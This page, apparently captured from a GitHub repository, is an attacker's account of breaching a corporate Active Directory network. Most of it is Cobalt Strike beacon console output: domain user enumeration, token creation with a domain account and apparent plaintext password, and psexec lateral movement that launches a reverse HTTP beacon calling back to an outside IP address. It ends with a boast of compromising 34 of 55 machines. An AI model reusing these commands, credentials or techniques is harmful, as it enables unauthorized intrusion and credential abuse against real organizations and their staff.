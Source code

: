 ```
Starting engine and signature rollback to none...
Done!
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><Obj S="progress" RefId="0"><TN RefId="0"><T>System.Management.Automation.PSCustomObject</T><T>System.Object</T></TN><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj><Obj S="progress" RefId="1"><TNRef RefId="0" /><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj></Objs>

beacon> net user \\AQUILA
[*] Tasked beacon to run net user on AQUILA
[+] host called home, sent: 105057 bytes
[+] received output:
Users for \\AQUILA:

????????????? (admin)
?????
krbtgt
DefaultAccount
day.dozor (admin)
replicant.user (admin)
monit.user
belevax (admin)
aliev.rs (admin)
boba.se
kozyrev.sd (admin)
sysadm (admin)
..[snip]..

beacon> rev2self
[+] Tasked beacon to revert token
beacon> make_token SHMC.LOCAL\replicant.user 166D3f75
[*] Tasked beacon to create a token for SHMC.LOCAL\replicant.user
beacon> jump psexec64 AQUILA sex
[*] Tasked beacon to run windows/beacon_http/reverse_http (173.249.45.143:80) on AQUILA via Service Control Manager (\\AQUILA\ADMIN$\a25fd0c.exe)
[+] host called home, sent: 60 bytes
[+] Impersonated NT AUTHORITY\СИСТЕМА
[+] host called home, sent: 291366 bytes
[+] received output:
Started service a25fd0c on AQUILA
```

On the **Event Logs**

```
<REDACTED> *** initial beacon from replicant.user *@172.16.0.20 (AQUILA)
```

So far we have penetrated 34 machines out of 55 on the active directory network. Not all machines are powered on due to
employees have different schedules yet we didn't have to stay for long since we got what we're looking for and there
isn't much to find unless we want to keep fooling around.
